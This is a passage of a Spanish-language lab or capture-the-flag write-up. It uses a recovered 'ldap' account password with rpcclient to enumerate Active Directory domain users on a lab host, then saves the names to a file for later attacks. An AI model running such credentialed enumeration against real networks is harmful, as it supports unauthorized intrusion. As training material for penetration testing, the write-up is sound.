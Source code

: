 ```bash
dSCorePropagationData: 20220528111201.0Z
dSCorePropagationData: 16010101000000.0Z
```

- Probando con `rpcclient` podemos conectarnos y enumerar los usuarios del dominio.

```bash
➜  content rpcclient -U 'ldap%nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' 10.129.245.29 -c 'enumdomusers'
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[ldap] rid:[0x450]
user:[support] rid:[0x451]
user:[smith.rosario] rid:[0x452]
user:[hernandez.stanley] rid:[0x453]
user:[wilson.shelby] rid:[0x454]
user:[anderson.damian] rid:[0x455]
user:[thomas.raphael] rid:[0x456]
user:[levine.leopoldo] rid:[0x457]
user:[raven.clifton] rid:[0x458]
user:[bardot.mary] rid:[0x459]
user:[cromwell.gerard] rid:[0x45a]
user:[monroe.david] rid:[0x45b]
user:[west.laura] rid:[0x45c]
user:[langley.lucy] rid:[0x45d]
user:[daughtler.mabel] rid:[0x45e]
user:[stoll.rachelle] rid:[0x45f]
user:[ford.victoria] rid:[0x460]
```

- Como tenemos una contraseña vamos a guardar los usuarios en una lista.

```bash
➜  content rpcclient -U 'ldap%nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' 10.129.245.29 -c 'enumdomusers' | grep -oP '\[\D*?\]' | tr -d '[]' > users.txt
➜  content cat users.txt
Administrator
Guest
krbtgt
ldap
support
smith.rosario
hernandez.stanley
wilson.shelby
anderson.damian
thomas.raphael
levine.leopoldo
raven.clifton
bardot.mary
cromwell.gerard
monroe.david
west.laura
langley.lucy
daughtler.mabel
stoll.rachelle
ford.victoria
```
